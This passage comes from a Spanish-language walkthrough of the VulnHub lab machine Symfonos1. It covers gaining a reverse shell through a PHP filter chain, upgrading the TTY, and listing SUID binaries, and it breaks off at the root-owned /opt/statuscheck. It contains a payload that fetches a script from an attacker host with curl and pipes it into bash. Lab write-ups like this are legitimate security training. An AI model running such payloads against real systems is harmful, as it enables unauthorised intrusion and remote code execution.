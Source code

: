 5.  Ejecutar la herramienta [php_filter_chain_generator.py](https://github.com/synacktiv/php_filter_chain_generator/tree/main) para que nos genere la cadena que nos otorgará la reverse shell
	 > python3 php_filter_chain_generator.py --chain '<?= `curl -s 192.168.0.36/r|bash` ?>'

6. Introducir la cadena en la URL para ganar acceso al sistema
[<img src="/assets/images/vulnhub/Symfonos1/captura2.png">](/assets/images/vulnhub/Symfonos1/captura2.png)
Ya estamos dentro de la máquina víctima.

# Privesc

Primero hacemos el tratamiento de la **TTY** para tener una consola interactiva.
```bash
script /dev/null -c bash
^Z # CTRL+Z
stty raw -echo; fg
	reset xterm
export TERM=xterm SHELL=bash
stty rows X columns X # tus filas y columnas 
```

Para empezar buscamos archivos **SUID** como de costumbre, esta vez vemos algo que se sale de lo común.
```bash
find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn

/opt/statuscheck

/bin/mount
/bin/umount
/bin/su
/bin/ping
```

El archivo pertenece al usuario **root**.
```bash
helios@symfonos:/tmp$ ls -l /opt/statuscheck 
-rwsr-xr-x 1 root root 8640 Jun 28  2019 /opt/statuscheck
```
